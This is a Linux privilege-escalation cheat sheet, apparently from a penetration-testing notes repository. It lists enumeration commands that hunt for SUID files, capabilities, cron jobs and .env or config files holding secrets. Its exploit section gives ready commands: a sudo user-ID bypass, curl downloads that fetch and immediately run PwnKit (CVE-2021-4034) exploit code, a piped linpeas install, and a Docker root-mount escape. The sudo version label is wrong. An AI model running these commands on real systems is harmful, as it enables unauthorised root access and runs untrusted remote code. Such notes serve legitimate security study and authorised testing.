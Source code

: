 # Linux

## System Enumeration

### LinPEAS

> https://github.com/peass-ng/PEASS-ng

```bash
curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### Find SUID and GUID files

### SUID

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

### GUID

```bash
find / -type f -perm -2000 -ls 2>/dev/null
```

### Enviroment Variables

```bash
env || set
```

### Common Config Files

> If you want to black list any directory you can add: `-not -path "<PATH>/*"`

```bash
find / -type f -name ".env" 2>/dev/null

find / -type f -name "*conf*.php" 2>/dev/null
```

### Check Capabilities

```bash
getcap -r / 2>/dev/null
```

### Open Ports

```bash
ss -nltp
```

### Cron Jobs

```bash
# Cron files
find / -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

### Process Monitor

> You can add words to the blacklist on the `grep -Ev` section.

```bash
old_ps=$(ps -eo user,command); while true; do new_ps=$(ps -eo user,command); \
diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" | \
grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

### Writable Scripts

```bash
find / -user <USER> -writable \( -name "*.sh" -o -name "*.py" \) -type f 2>/dev/null
```

## Exploits

### Sudo

Check sudo version

```bash
sudo -V | grep "Sudo ver"
```

Sudo < v1.28

```bash
sudo -u#-1 /bin/bash
```

### PwnKit - (CVE-2021-4034)

> https://github.com/Almorabea/pkexec-exploit/tree/main

```bash
curl -sL https://raw.githubusercontent.com/Almorabea/pkexec-exploit/main/CVE-2021-4034.py \
-o PwnKit.py && python3 PwnKit.py
```

> https://github.com/ly4k/PwnKit/tree/main

```bash
curl -sL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit \
-o PwnKit && chmod +x PwnKit && ./PwnKit
```

### Docker

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

